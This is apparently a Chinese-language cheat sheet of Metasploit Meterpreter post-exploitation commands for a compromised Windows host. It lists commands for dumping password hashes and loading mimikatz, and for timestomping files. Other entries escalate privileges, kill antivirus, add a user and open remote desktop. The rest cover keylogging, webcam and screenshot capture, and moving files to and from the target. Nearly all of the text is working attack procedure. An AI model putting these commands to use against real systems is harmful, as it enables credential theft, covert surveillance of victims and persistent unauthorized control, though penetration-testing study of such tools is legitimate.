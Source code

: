 ~~~bash
==========================================
命令                           说明
-------                       ------------
hashdump                      转储 SAM 数据库的内容

==========================================
Priv：Timestomp 命令：
==========================================
命令                           说明
-------                       ------------
timestomp                     操作文件 MACE 属性
~~~

输入 `shell` 即可切换到目标主机的 `windows cmd_shell` 里面
~~~bash
shell         #获取目标主机的cmd_shell权限
chcp 65001    #这里为了避免目标主机cmd_shell字符乱码，设置目标主机命令行的字符编码，65001是UTF-8
~~~

要想从目标主机 `shell` 退出到 `meterpreter` ，只需输入：`exit`

从 `meterpreter` 退出到 `MSF框架`
~~~bash
background   #把我们获得的meterpreter会话挂载到后台运行
~~~

查看前面获得的 meterpreter_shell 会话，最前面的数字是会话的 id
~~~bash
sessions  -l    #查看获得的meterpreter_shell会话列表
~~~

输入 sessions [id 号] 即可进入相应的 meterpreter_shell 中
~~~bash
sessions 1
~~~

输入 `shell` 即可进入 `cmd` 类型的控制
再输入 `powershell` ，即可进入 `powershell` 类型的控制台

~~~bash
sysinfo             									#查看目标主机系统信息
run scraper         									#查看目标主机详细信息
run hashdump        									#导出密码的哈希
load kiwi           									#加载mimikatz
ps                  									#查看目标主机进程信息
pwd                		 								#查看目标当前目录(windows)
getlwd              									#查看目标当前目录(Linux)
search -f *.jsp -d e:\                					#搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          					#将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      					#将/root/test.txt上传到目标机的 d:\test\ 目录下
getpid             										#查看当前Meterpreter Shell的进程PID
migrate 1384        									#将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime           		 								#查看主机运行时间
getuid              									#查看获取的当前权限
getsystem           									#提权,获得的当前用户是administrator才能成功
run  killav        			 							#关闭杀毒软件
screenshot          									#截图
webcam_list         									#查看目标主机的摄像头
webcam_snap         									#拍照
webcam_stream       									#开视频
execute 参数 -f 可执行文件   							    #执行可执行程序
run getgui -u test1 -p Abc123456    					#创建test1用户，密码为Abc123456
run getgui -e                							#开启远程桌面
keyscan_start                							#开启键盘记录功能
keyscan_dump                			 				#显示捕捉到的键盘记录信息
keyscan_stop                 							#停止键盘记录功能
uictl  disable  keyboard     							#禁止目标使用键盘
uictl  enable   keyboard     							#允许目标使用键盘
~~~